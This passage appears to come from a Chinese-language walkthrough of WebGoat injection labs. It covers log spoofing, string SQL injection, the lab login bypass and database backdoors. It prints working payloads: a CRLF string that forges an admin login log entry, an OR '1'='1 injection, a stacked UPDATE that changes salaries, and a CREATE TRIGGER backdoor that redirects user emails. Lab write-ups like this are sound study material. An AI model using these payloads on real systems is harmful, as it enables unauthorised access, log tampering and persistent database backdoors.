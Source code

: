 由于1=1恒成立,所以会遍历出所有的数据库表单

Injection Flaws-Log Spoofing
----------------------------

日志伪造,这里是攻击者发现了日志生成的规则,通过注入恶意字符串,按照规则伪造出一条日志,在Username输入

```
Smith%0d%0aLogin Succeeded for username: admin

```

其中%0d和%0a为CRLF换行符,看到的输出为

```
Login failed for username: Smith
Login Succeeded for username: admin

```

其实第二行完全是伪造出来的

Injection Flaws-String SQL Injection
------------------------------------

字符串注入,由于字符串是由''包裹起来的,所以要注意格式,和数字注入原理一样

```
Erwin' OR '1'='1

```

SQL拼接出来的结果是

```
SELECT * FROM user_data WHERE last_name = 'Erwin' OR '1'='1'

```

Injection Flaws-LAB: SQL Injection
----------------------------------

### Stage1-4

其实还是展现了数字和字符串不同的注入方法,对password进行拦截,然后使用字符串注入,可以登录任意账户.

剩下的我并没有做出来,也没有Solution,感觉题目坏掉了..

Injection Flaws-Database Backdoors
----------------------------------

利用SQL输入插入后门,首先是一个SQL注入点,可以通过数字注入看到所有人的薪水,然后使用以下SQL指令可以修改薪水

```
101; update employee set salary=10000

```

更加高级的是插入后门,下边这个后门好象是创建新用户的时候会自动修改邮箱为你的邮箱

```
CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com'WHERE userid = NEW.userid

```
